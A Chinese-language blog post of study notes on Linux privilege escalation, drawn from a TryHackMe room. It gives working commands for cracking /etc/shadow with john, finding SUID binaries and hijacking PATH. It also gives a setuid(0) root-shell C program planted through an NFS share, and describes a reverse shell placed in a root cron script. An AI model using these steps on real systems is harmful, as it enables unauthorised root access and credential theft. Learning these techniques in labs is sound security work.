 ```yaml
---
layout: post
title:  "Linux Privilege Escalation"
date:   26 June 2025
categories: Demo
tags: Cybersecurity
---
```

<html>
<body>
<div markdown="block" style="margin-top: 10px">
    
### Intro
今天來迅速了解關於Linux提權的常用手法，可能會有些簡陋，主要是提供自己一個思路。在真正提權時根據這個思路來走才不會忙手忙腳

介紹的手法出自 [TryHackMe - Linux Privilege Escalation](https://tryhackme.com/room/linprivesc)，有興趣的朋友可以自行查閱，後續若有看到新的手法會再進行補充

***提權手法:***
1. [Kernel Exploit](#1-kernel-exploit)
2. [Sudo -l](#2-sudo--l)
3. [SUID](#3-suid)
4. [Capabilities](#4-capabilities)
5. [Cron Jobs](#5-cron-jobs)
6. [PATH](#6-path)
7. [NFS](#7-nfs)

### 1. Kernel Exploit
有些Linux版本內核會有漏洞可以利用來提權，這部分可以在最剛開始拿到權限時就進行測試，因為不需要跑什麼腳本，可以通過簡單的查詢來快速排除/利用此項提權手法:

```bash
hostname
uname -a
cat /proc/version
cat /etc/issue
```

查到內核版本後上網查這個版本是否有CVE漏洞可以用來提權，注意這邊版本必需要直接對應，以及使用漏洞前要先徹底了解腳本會帶來的影響，因為這類型的腳本通常有可能造成系統crash

### 2. sudo -l
快速查閱當前用戶有沒有被授予對特定程序的sudo權限，如果有可利用 [GTFOBins](https://gtfobins.github.io/#) 查實際的提權手法

通常來說提權後關注的文件有:
- `/etc/passwd`
- `/etc/shadow`

獲得這兩個文件後可利用 **unshadow + john** 來破解用戶密碼:

```bash
#有兩個文件分別對應/etc/shadow & /etc/passwd
unshadow password.txt shadow.txt > unshadow.txt
john unshadow.txt
```

### 3. SUID
通過 **find** 指令查詢所有設置SUID的程序，進一步利用 [GTFOBins](https://gtfobins.github.io/#) 查實際提權手法

```bash
find / -type f -perm -04000 -ls 2>/dev/null
find / -perm -4000 -user root 2>/dev/null
```

順帶一提，可以利用 **id** 來查自己或別的用戶的權限以及所在群組，非常有用:

```bash
id
id jerry
```

### 4. Capabilities
*Capability 是 Linux 內核從 2.2 起引入的權限模型，可以讓某些程式在不設 SUID 的情況下擁有特權操作*

因此，如果用 `find` 查詢 SUID 的話是查不出 capability 的，因為它們所在的層面不同，雖然同樣屬於access control。要查詢Capability可以用 **getcap** 來查:

```bash
getcap -r / 2>/dev/null
```

若有查到類似 **cap_setuid+ep** 之類的就表示可能可以利用，因為還要在用 `ls` 檢查 owner 是否為 root 才能利用。當然這一步也可以在使用 **linpeas** 的時候就看到結果，只不過要自己去翻就是了 :D

### 5. Cron jobs
Linux的自動排程程序也可以作為提權手段，思路就是如果有排程任務它的擁有者是root，並且我們擁有這個排程任務執行的script的寫的權限，那麼我們就可以做提權

```bash
$ cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# Example of job definition:
# .---------------- minute (0 - 59)
# |  .------------- hour (0 - 23)
# |  |  .---------- day of month (1 - 31)
# |  |  |  .------- month (1 - 12) OR jan,feb,mar,apr ...
# |  |  |  |  .---- day of week (0 - 6) (Sunday=0 or 7) OR sun,mon,tue,wed,thu,fri,sat
# |  |  |  |  |
# *  *  *  *  * user-name command to be executed
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
#
* * * * *  root /antivirus.sh
* * * * *  root antivirus.sh
* * * * *  root /home/karen/backup.sh
* * * * *  root /tmp/test.py
```

- 例如像上面這個crontab，我們可以先找一下有沒有antivirus.sh，發現好像沒有這個文件，那麼我們正常來說可以創造一個名為 antivirus.sh 的文件並放在 PATH 下，但是當我們檢查這麼多個PATH之後發現當前用戶都沒有寫入權限，因此pass
- 再來我們去檢查 /home/karen/backup.sh 我們有無寫入權限，也是沒有因此pass
- 最後看到/tmp/test.py，對/tmp目錄我們有寫入權限，因此創建一個bash file名為test.py，內容是一個reverse shell返回到我們攻擊主機
- 注意這個test.py實際上並不是python file而是bash file，因為python file的話需要在裡面進一步設置setuid(0)之類的，而我們自己創造的test.py實際上並沒有權限可以這麼做，因此直接利用bash file執行reverse shell即可

### 6. PATH
利用的就是有些程序調用時使用例如 `os.system("vim")`也就是沒有使用絕對路徑，這樣的話linux會默認到環境變數PATH下依照順序到各個目錄下看有沒有這麼一個程序名為 `vim`。但如果下面條件有任何一項符合的話我們就可以利用環境變數PATH來提權:
- PATH中有哪些folder並且有folder我們有寫入權限
- 當前用戶有無權限修改PATH

**所以我們可以簡化出一個流程用於檢查是否可以利用PATH提權**：
- PATH中有哪些folder
- (二擇一)這些folder有沒有w權限
- (二擇一)可不可以修改PATH
- 有沒有script/application可以利用的(也就是有使用相對路徑調用的)

**常用指令:**

```bash
# 查看PATH
echo $PATH
# 查哪些folder當前用戶有寫入(w)權限
find / -writable 2>/dev/null | cut -d "/" -f 2,3 | grep -v proc | sort -u
# 修改PATH
export PATH=/tmp:$PATH
```

### 7. NFS
NFS (Network File Sharing)也可以用來提權，思路就是在攻擊主機中mount到受害者主機分享的資料夾，之後用root用戶創建一個executable並且設置SUID，這樣在受害者主機上也會是root權限和SUID:
- 查看NFS 
  
```bash
# victim's perspective
cat /etc/exports
```

- 攻擊者主機:找出NFS並且mount到shared folder 
  
```bash
# attacker's perspective
showmount -e <VICTIM_IP>    #找出shared folders
mkdir /tmp/ttmp
mount -o rw <VICTIM_IP>:<SHARED_FOLDER> /tmp/ttmp   #mount到攻擊者主機文件夾
```
  
- 建一個ELF executable並且權限為owner:root和SUID

```c
#include <unistd.h>
#include <stdlib.h>

int main(){
    setgid(0);
    setuid(0);
    system("/bin/bash");
    return 0;
}
```

- 編譯為ELF executable

```bash
gcc nfs.c -o nfs -w
chmod +s nfs
```

- 最後在reverse shell上執行

```bash
./nfs
```

### 自我總結
提權手法類別:
- kernel exploit
- sudo -l
- SUID
- capability
- cron jobs
- PATH
- NFS

## 學習資料
1. [TryHackMe - Linux Privilege Escalation](https://tryhackme.com/room/linprivesc)

</div>
</body>
</html>

